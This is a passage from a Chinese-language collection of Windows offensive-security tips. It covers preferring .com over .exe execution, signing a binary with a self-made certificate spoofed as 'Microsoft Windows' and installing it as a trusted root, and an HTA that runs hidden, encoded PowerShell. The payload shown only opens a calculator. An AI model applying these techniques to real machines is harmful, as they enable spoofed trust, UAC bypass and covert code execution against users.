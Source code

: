 如果一个路径下同时包含同名的exe和com文件，例如test.exe和test.com，通过命令行cmd输入test(不包含文件后缀名)，会优先运行com文件，即test.com

而COM文件的生成只需要把exe文件的后缀名改为com即可

参考： 

《A dirty way of tricking users to bypass UAC》

---

### Tips 8. Windows系统证书生成与注册

证书生成与签名：

```
makecert -n "CN=Microsoft Windows" -r -sv Root.pvk Root.cer
cert2spc Root.cer Root.spc
pvk2pfx -pvk Root.pvk -pi 12345678password -spc Root.spc -pfx Root.pfx -f
signtool sign /f Root.pfx /p 12345678password test.exe
```

执行后生成Root.cer、Root.pfx、Root.pvk、Root.spc四个文件，test.exe被加上数字签名

证书注册：

管理员权限cmd，将证书添加到localmachine：

```
certmgr.exe -add -c Root.cer -s -r localmachine root
```

参考： 

《A dirty way of tricking users to bypass UAC》

---

### Tips 9.  hta执行vbs，加载powershell

test.hta：

```
<HTML> 
<HEAD> 
<script language="VBScript">
    Set WshShell = CreateObject("WScript.Shell")
    Connect="powershell -nop -windows hidden -E YwBhAGwAYwAuAGUAeABlAA=="
    WshShell.Run Connect, 4, true
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</HEAD> 
<BODY> 
</BODY> 
</HTML> 
```

参考： 
